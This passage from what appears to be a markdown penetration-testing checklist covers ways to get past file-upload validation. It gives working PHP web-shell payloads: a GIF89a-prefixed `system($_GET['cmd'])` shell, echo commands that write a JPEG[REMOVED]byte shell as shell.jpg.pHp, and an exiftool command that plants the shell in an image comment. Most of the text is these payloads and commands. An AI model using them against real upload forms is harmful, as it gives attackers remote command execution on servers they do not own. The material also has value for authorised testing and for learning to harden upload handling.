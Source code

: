             ```php
            GIF89a; <?php system($_GET['cmd']); ?>
            ```
          </br> 
        - [ ] Magic Numbers Bypass
            - Magic numbers are the first bits of a file which uniquely identify the type of file.</br>
            - it can be helpful to look for file format signatures and inferring how the application is using them based on these signatures, as well as how these formats may be abused to provoke undefined behavior within the application.</br>[https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)</br>
            - These bytes can be used by the system to “differentiate between and recognize different files” without a file extension.</br>
            - Magic numbers (File signatures) are typically not visible to the user, but, can be seen by using a hex editor or by using the ‘xxd’ command to read the file.
	
            ```bash
            └─$ xxd image.jpeg | head
            ```
            - Download hex editor: To corrupt a file, we require a hex editor. hexedit is a popular tool used for the same. You can install it using:
            ```bash
            └─$ sudo apt-get install hexedit
            ```
            - You can open the file by typing
            ```bash
            └─$ hexeditor image.png
            ```
            - To change a byte using hexedit, you simply have to move the cursor over a byte, and type what you would like to.</br>
            - To save and exit, press ctrl X and then Y.</br>
            - To make php file with jpg magic number use this code:
            ```bash
            └─$ echo -n -e '\xFF\xD8\xFF\xE0\n<?php system($_GET['cmd']); ?>'  > shell.jpg.pHp 
            or
            └─$ echo -e $'\xFF\xD8\xFF\xE0\n<?php system($_GET['cmd']); ?>'  > shell.jpg.pHp
            ```
            - You can also check it with this command:
            ```bash
            └─$ file shell.jpg.pHp
            shell2.png.pHp: JPEG image data
            ```
	    > How to find out uploader is checking file signature or its checking file extention and content-type?
	    > > Lets try to change the our shell extension to .jpg and try to upload it. It still fails. So we can conclude that it is not checking the file name extension. The same 		    happens if we change the content-Type to jpg and file name as it is. If its still fails we can understand that uploader is checking file signature.

	
		<br></br>		    
        - [ ] Comment in jpg file Bypass<br></br>
            - For file uploads which validate image size using php `getimagesize()`, it may be possible to execute shellcode by inserting it into the Comment attribute of Image 		    - properties and saving it as file.jpg.php.
            - You can do this with gimp or exiftools:
			```php
			└─$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
			└─$ mv file.jpg file.php.jpg (modify the extension because .jpg is not an executable format)
			```
